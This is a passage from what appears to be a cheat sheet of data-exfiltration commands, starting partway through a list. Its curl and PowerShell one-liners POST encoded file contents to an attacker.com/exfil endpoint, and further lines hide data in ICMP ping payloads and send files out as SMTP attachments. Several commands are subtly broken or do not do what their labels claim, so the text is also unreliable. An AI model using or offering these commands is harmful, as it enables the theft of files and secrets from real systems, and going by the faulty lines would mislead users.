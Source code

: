 
2. **Using `curl` on Windows Command Prompt to read and encode a file:**

```
curl -o NUL -X POST --data-urlencode "data=$(certutil -encode /path/to/file.txt -)" http://attacker.com/exfil
```


3. **Using PowerShell on Windows to read and encode a file:**

```
$encodedData = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\path\to\file.txt"))
Invoke-RestMethod -Uri "http://attacker.com/exfil" -Method POST -Body "data=$encodedData"
```

### ICMP Echo Requests

1. **Using `ping` on Linux/macOS:**

```
ping -c 1 -p "SensitiveData" 8.8.8.8
```


2. **Using `ping` on Windows Command Prompt:**

```
ping -n 1 8.8.8.8 & echo SensitiveData
```



3. **Using Python on Linux/macOS/Windows:**

```
python -c "import os; os.system('ping -c 1 -p \"SensitiveData\" 8.8.8.8')"
```

### SMTP Email Attachments

1. **Using `mailx` on Linux to send an email with attachment:**

```
echo "Message body" | mailx -s "Subject" -a /path/to/file.txt recipient@example.com
```


2. **Using PowerShell on Windows to send an email with attachment:**

```
Send-MailMessage -To "recipient@example.com" -From "sender@example.com" -Subject "Subject" -Body "Message body" -Attachments "C:\path\to\file.txt" -SmtpServer "smtp.example.com"
```



3. **Using Python on Linux/macOS/Windows to send an email with attachment:**

```
python -c "import smtplib, base64; server = smtplib.SMTP('smtp.example.com'); server.starttls(); server.login('sender@example.com', 'password'); msg = 'Subject: Subject\\n\\nMessage body'; server.sendmail('sender@example.com', 'recipient@example.com', msg); server.quit()"
```
